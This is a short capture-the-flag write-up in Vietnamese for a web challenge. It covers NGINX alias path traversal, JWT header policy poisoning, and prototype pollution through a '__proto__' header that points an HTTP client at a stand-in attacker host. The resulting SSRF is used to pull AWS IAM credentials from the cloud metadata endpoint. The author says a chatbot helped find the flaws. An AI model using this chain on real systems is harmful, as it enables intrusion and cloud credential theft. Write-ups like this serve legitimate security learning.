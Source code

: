 ## Time is Gold

### 1. Path traversal via misconfigured NGINX alias
- Được BTC hint cho cái file `server.js` ở `http://47.129.239.241/assets../server.js` chứ mình cũng không mò ra

### 2. Check vulnerables of `server.js`and `jwt.js`
- Tải 2 file về rồi hỏi Gemini: `check my source code and show security vulnerabilities if I missed`
- Tập trung vào output sau

> **Critical JWT Policy Poisoning via Header Tampering**
> Your JWT library's "policy" mechanism can be manipulated by an attacker-controlled JWT header, leading to a bypass of security checks for all subsequent token verifications.
> 
> Vulnerable Code (jwt.js):
> ```
> function headerPolicyFor(typ, overrides, store = defaultHeaderPolicies) {
>  const key = String(typ || 'JWT');
>  if (!store[key]) store[key] = {};
>  const p = store[key];
>  if (isObject(overrides)) { // <-- VULNERABILITY HERE
>    // It merges the "overrides" (from the untrusted token header)
>    // into the shared policy object `p`.
>    for (const k of Object.keys(overrides)) {
>      p[k] = overrides[k];
>    }
>  }
>  return p;
> }

### 3. S3 Storage Usage
- Thấy cái `S3_GOLD_URL`
- IP `47.129.239.241` là IP của Amazon Data Services Singapore
- Đoán mò là Flag sẽ nằm trong S3

### 4. SSRF Potential
- Hỏi tiếp Gemini: `any SSRF that hacker can send request to localhost`
- Tập trung vào output sau
> goldHttpClient Path (direct=false)
> When the direct query parameter is explicitly set to 'false' or '0', this path is taken.
> ```
> response = await goldHttpClient.get(GOLD_API_PATH, requestConfig);
> ```

### 5. Generate payload 
- Tạo cái chat mới để hỏi Gemini tiếp, upload 2 files và hỏi `use headerPolicyFor to set goldHttpClient.defaults.baseURL or parent classes to abuse goldHttpClient.defaults.baseURL`
- Đáp án:
> **Exploitation: Chaining Prototype Pollution to SSRF**
> ```
> {
>  "alg": "HS256", 
>  "typ": "__proto__",
>  "baseURL": "http://attacker-controlled-server.com/"
> }
> ```

### 6. DIY - Do It Yourself
- Vì là S3 nên thử request vô `http://169.254.169.254/latest/meta-data/latest/meta-data/iam/security-credentials/`
- May là trả ra cái role và thử tiếp thì có token
- Tiếp tục hỏi Gemini để cài **AWS CLI** lên máy rồi vô Storage lấy Flag thôi

## Thanks to CBJS for the chalange!
## Have fun!
